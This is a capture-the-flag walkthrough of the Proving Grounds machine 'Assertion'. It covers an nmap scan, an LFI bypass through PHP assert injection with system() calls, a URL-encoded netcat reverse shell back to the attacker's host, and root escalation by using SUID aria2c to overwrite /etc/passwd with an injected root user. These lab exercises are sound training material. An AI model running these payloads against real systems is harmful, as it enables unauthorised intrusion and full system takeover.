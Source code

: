 ```yaml
---
layout: default
title: Assertion
parent: Proving Grounds Play
nav_order: 29
---
```


# Scanning

---

```bash
┌──(vagrant㉿kali)-[~/Documents/PG/PLAY/assertion101]
└─$ sudo nmap -Pn -p- -sC -sV -T4 --open 192.168.232.94
Starting Nmap 7.94 ( https://nmap.org ) at 2023-11-16 19:19 EST
Nmap scan report for 192.168.232.94
Host is up (0.062s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 6e:ce:aa:cc:02:de:a5:a3:58:5d:da:2b:ef:54:07:f9 (RSA)
|   256 9d:3f:df:16:7a:e1:59:58:84:4a:e3:29:8f:44:87:8d (ECDSA)
|_  256 87:b5:6f:f8:21:81:d3:3b:43:d0:40:81:c0:e3:69:89 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Assertion
|_http-server-header: Apache/2.4.29 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 28.26 seconds

```

# Enumeration

---

## Users

## 80 | HTTP

![index](../../../assets/images/ctfs/proving_grounds/assertion/index.png)

The URL looks susceptible to LFI, but we get a custom message after a simple test.

![brother](../../../assets/images/ctfs/proving_grounds/assertion/brother.png)

Looking online for LFI payload alternatives, I found this writeup:

# Exploitation

---

Reaching the following page from HackTricks there are some _LFI via PHP's 'assert'_ options when the site appears to be filtering traversal strings, such as this site is doing.

[HackTricks File Inclusion Page](https://book.hacktricks.xyz/pentesting-web/file-inclusion)

```bash
http://192.168.232.94/index.php?page=%27%20and%20die(system(%22whoami%22))%20or%20%27
```

![whoami](../../../assets/images/ctfs/proving_grounds/assertion/whoami.png)

Generate a reverse shell with a

```bash
┌──(vagrant㉿kali)-[~/Documents/PG/PLAY/assertion101]
└─$ revshellgen -i 192.168.45.217 -p 9001 -t nc-mknod

[+] Reverse shell command:

rm /tmp/l;mknod /tmp/l p;/bin/sh 0</tmp/l | nc 192.168.45.217 9001 1>/tmp/l

┌──(vagrant㉿kali)-[~/Documents/PG/PLAY/assertion101]
└─$ urlencode "rm /tmp/l;mknod /tmp/l p;/bin/sh 0</tmp/l | nc 192.168.45.217 9001 1>/tmp/l"
rm%20%2Ftmp%2Fl%3Bmknod%20%2Ftmp%2Fl%20p%3B%2Fbin%2Fsh%200%3C%2Ftmp%2Fl%20%7C%20nc%20192.168.45.217%209001%201%3E%2Ftmp%2Fl

```

Executing the following payload we get a reverse shell in our netcat listener.

```bash
URL: 192.168.232.94/index.php?page=' and die(system("rm%20%2Ftmp%2Fl%3Bmknod%20%2Ftmp%2Fl%20p%3B%2Fbin%2Fsh%200%3C%2Ftmp%2Fl%20%7C%20nc%20192.168.45.217%209001%201%3E%2Ftmp%2Fl")) or '


┌──(vagrant㉿kali)-[~/Documents/PG/PLAY/assertion101]
└─$ nc -nlvp 9001
listening on [any] 9001 ...
connect to [192.168.45.217] from (UNKNOWN) [192.168.232.94] 59352
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)

```

# Post-Exploitation

---

## Locate id_rsa

Within _/var/www/html_ there is a _.todeletelater_ directory which contains a _id_rsa_ private key.

```bash
www-data@assertion:/var/www/html$ ls -la
total 196
drwxr-xr-x 9 root root  4096 Jan 16  2020 .
drwxr-xr-x 3 root root  4096 Sep  8  2020 ..
drwxr-xr-x 2 root root  4096 Jan 16  2020 .todeletelater
drwxr-xr-x 2 root root  4096 Jan 16  2020 Source
-rwxr-xr-x 1 root root 20735 Jan 16  2020 about.php
-rwxr-xr-x 1 root root 22301 Jan 16  2020 blog-single.php
-rwxr-xr-x 1 root root 15274 Jan 16  2020 blog.php
-rwxr-xr-x 1 root root 11556 Jan 16  2020 contact.php
drwxr-xr-x 2 root root  4096 Jan 16  2020 css
drwxr-xr-x 2 root root  4096 Jan 16  2020 fonts
-rwxr-xr-x 1 root root 17070 Jan 16  2020 gallery.php
drwxr-xr-x 9 root root  4096 Jan 16  2020 img
-rwxr-xr-x 1 root root 36971 Jan 16  2020 index.php
drwxr-xr-x 2 root root  4096 Jan 16  2020 js
drwxr-xr-x 2 root root  4096 Jan 16  2020 pages
-rwxr-xr-x 1 root root 23805 Jan 16  2020 schedule.php

www-data@assertion:/var/www/html$ cd .todeletelater/
www-data@assertion:/var/www/html/.todeletelater$ ls -la
total 12
drwxr-xr-x 2 root root 4096 Jan 16  2020 .
drwxr-xr-x 9 root root 4096 Jan 16  2020 ..
-r--r--r-- 1 root root 1766 Jan 16  2020 id_rsa

```

Looking at _/home_ there are two user directories: _fnx_ and _soz_

Deadend

## Check SUID Permissions

```bash
www-data@assertion:/dev/shm$ find / -perm -u=s -type f 2>/dev/null
/usr/lib/openssh/ssh-keysign
/usr/lib/eject/dmcrypt-get-device
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/snapd/snap-confine
/usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
/usr/bin/at
/usr/bin/aria2c
/usr/bin/newgrp
/usr/bin/newgidmap
```

_/usr/bin/aria2c_ is interesting.

We can use _aria2c_ to overwrite files we download from the attack machine.

Let's add a user to the /etc/passwd file on our attack machine and then upload to the target.

The following will add a root user with the password _i<3hacking_

```bash
evil:$1$/UTMXpPC$Wrv6PM4eRHhB1/m1P.t9l.:0:0:evil:/home/evil:/bin/bash
```

![evil](../../../assets/images/ctfs/proving_grounds/assertion/evil.png)

Now move to the _/etc_ directory on the target and upload our malicious _passwd_ file

```bash
www-data@assertion:/etc$ aria2c -o passwd http://192.168.45.217:8000/passwd --allow-overwrite=true

11/17 02:51:11 [NOTICE] Downloading 1 item(s)
\
11/17 02:51:11 [NOTICE] Download complete: /etc/passwd

Download Results:
gid   |stat|avg speed  |path/URI
======+====+===========+=======================================================
87fe7c|OK  |        n/a|/etc/passwd

Status Legend:
(OK):download completed.


```

Now we can switch user's to our _evil_ user and get a root shell.

```bash
www-data@assertion:/etc$ su evil
Password:
root@assertion:/etc# id
uid=0(root) gid=0(root) groups=0(root)
root@assertion:/etc# whoami
root

```
